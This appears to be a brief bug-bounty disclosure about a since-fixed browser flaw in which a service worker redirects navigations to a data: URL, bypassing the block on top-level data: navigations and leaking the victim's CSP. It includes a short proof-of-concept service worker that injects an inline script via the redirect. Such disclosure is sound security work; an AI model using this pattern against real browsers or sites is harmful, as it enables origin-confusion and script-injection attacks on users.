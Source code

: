 ```yaml
---
title: Service workers allowing redirects to data URLs (Awarded $4000)
---
```


Top-level navigations to `data:` are not normally allowed. <https://blog.mozilla.org/security/2017/11/27/blocking-top-level-navigations-data-urls-firefox-59/> This navigation inherits from the opener as shown for the origin in the protocol confirmation dialog and also leaks the victims CSP.

```js
self.addEventListener('fetch', function (event) {
  event.respondWith(
    Response.redirect('data:text/html,<script>prompt("Test")</script>')
  );
});
```

This issue was fixed in <https://issues.chromium.org/379337758>
